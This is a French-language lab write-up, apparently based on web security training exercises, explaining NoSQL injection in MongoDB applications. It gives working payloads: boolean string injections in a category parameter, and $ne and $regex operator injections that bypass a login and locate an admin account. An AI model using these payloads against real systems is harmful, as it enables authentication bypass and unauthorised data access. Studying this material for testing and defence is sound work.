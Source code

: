 ## Introduction
NoSQLi est une vulnérabilité qui permet à un pirate d'interférer avec les requêtes qu'une application adresse à une base de données NoSQL. L'injection NoSQL peut permettre à un attaquant de :

1.  Bypass authentication or protection mechanisms.
2.  Extract or edit data.
3.  Cause a denial of service.
4.  Execute code on the server.

Les bases de données NoSQL stockent et récupèrent les données dans un format différent des tables relationnelles SQL traditionnelles. Elles utilisent un large éventail de langages d'interrogation au lieu d'une norme universelle comme SQL, et ont moins de contraintes relationnelles.

## Types
Il existe deux types d'injection NoSQL :
- Syntax injection : Cela se produit lorsque vous pouvez casser la syntaxe des requêtes NoSQL, ce qui vous permet d'injecter votre propre charge utile. La méthodologie est similaire à celle utilisée pour l'injection SQL. Cependant, la nature de l'attaque varie considérablement, car les bases de données NoSQL utilisent un éventail de langages de requête, de types de syntaxe de requête et de structures de données différentes.
- Operation injection: Cela se produit lorsque vous pouvez utiliser les opérateurs de requête NoSQL pour manipuler les requêtes.

## Detection
### Syntax Injection
Dans un site qui a des categories, imagine qu'on tombe sur des categories
`https://insecure-website.com/product/lookup?category=Gifts`
Alors je change le `Gifts` par un quote `'` et je recois une erreur javascript

```
Command failed with error 139 (JSInterpreterFailure): &apos;SyntaxError: unterminated string literal :
functionExpressionParser@src/mongo/scripting/mozjs/mongohelpers.js:46:25
&apos; on server 127.0.0.1:27017. The full response is {&quot;ok&quot;: 0.0, &quot;errmsg&quot;: &quot;SyntaxError: unterminated string literal :\nfunctionExpressionParser@src/mongo/scripting/mozjs/mongohelpers.js:46:25\n&quot;, &quot;code&quot;: 139, &quot;codeName&quot;: &quot;JSInterpreterFailure&quot;}
```

Verifions maintenant si reelement elle est vrai la vulnerabilte qui a ete detecte.
- J'ajoute la categorie `Gifts` suivi maintenat de `'+'`, et j'oublie pas le url encode.
- Dans la reponse l'erreur a disparu, ce qui veux dire qu'elle est vulnerable

### Determinez si on peux injecter des Bool pour modifier la reponse
- Pour commencer, j'insert une fausse condition
`/filter?category=Gifts' && 0 &&'x`
J'appercois qu'ici aucun produit n'est affiche
- Avec la condition Vraie
`/filter?category=Gifts' && 1 &&'x`
Ici toutes les produits de la page sont affichees
- maintenat je peux injecter une condition Js qui va toujours evaluer en `True`
`/filter?category=Gifts'||1||'x`
Comme la condition injectée est toujours vraie, la requête modifiée renvoie tous les articles. Cela vous permet d'afficher tous les produits de n'importe quelle catégorie, y compris les catégories cachées ou inconnues.

### Operator Injection
Les bases de données NoSQL utilisent souvent des opérateurs de requête, qui permettent de spécifier les conditions auxquelles les données doivent répondre pour être incluses dans le résultat de la requête. Voici quelques exemples d'opérateurs de requête MongoDB :

   - `$where` - Recherche les documents qui répondent à une expression JavaScript.
   - `$ne` - Recherche toutes les valeurs qui ne sont pas égales à une valeur spécifiée.
   - `$in` - Recherche toutes les valeurs spécifiées dans un tableau.
   - `$regex` - Sélectionne les documents dont les valeurs correspondent à une expression régulière spécifiée.

Vous pouvez injecter des opérateurs de requête pour manipuler les requêtes NoSQL. Pour ce faire, soumettez systématiquement différents opérateurs à une série d'entrées utilisateur, puis examinez les réponses à la recherche de messages d'erreur ou d'autres changements

#### Submitting Query operator
Dans les messages JSON, vous pouvez insérer des opérateurs de requête sous forme d'objets imbriqués. Par exemple, ``{"nom d'utilisateur" : "wiener"}`` devient ``{"nom d'utilisateur":{"$ne" : "invalid"}}``.

Pour les entrées basées sur une URL, vous pouvez insérer des opérateurs de requête via des paramètres URL. Par exemple, ``nom d'utilisateur=wiener `` devient ``nom d'utilisateur[$ne]=invalid``. Si cela ne fonctionne pas, vous pouvez essayer ce qui suit :

- Convertissez la méthode de requête de GET en POST.
- Changez l'en-tête Content-Type en application/json.
-  Ajoutez du JSON au corps du message.
-   Injecter des opérateurs de requête dans le JSON.

### Detection sur un login
J'ai le mot de passe d'un utilisateur, alors je vais checker en mettant juste le bon mot de passe et en replacant le nom

```json

{"username":{"$ne":""},"password":"peter"}

```
J'ai une redirection et qui marche, alors je vais utiliser le `$regex`

```json
{"username":{"$regex":"admin.*"},"password":{"$ne":""}}

```
j'ai une reponse
```
HTTP/2 302 Found
Location: /my-account?id=adminio1967l3
```
ca a trouver un utilisateur.
- Alors si j'envoi:

```json
{"username":{"$ne":""},"password":{"$ne":""}}
```

ca me retourne : `Query returned unexpected number of records`. Ce qui veux simplement dire qu'il existe plusieurs utilisateur dans ce systemes.
- Alors comme il existe plusieurs utilisateur je vais juste utiliser le `$regex` pour trouver l'utilisateur que je veux

```json
{"username":{"$regex":"admin.*"},"password":{"$ne":""}}

```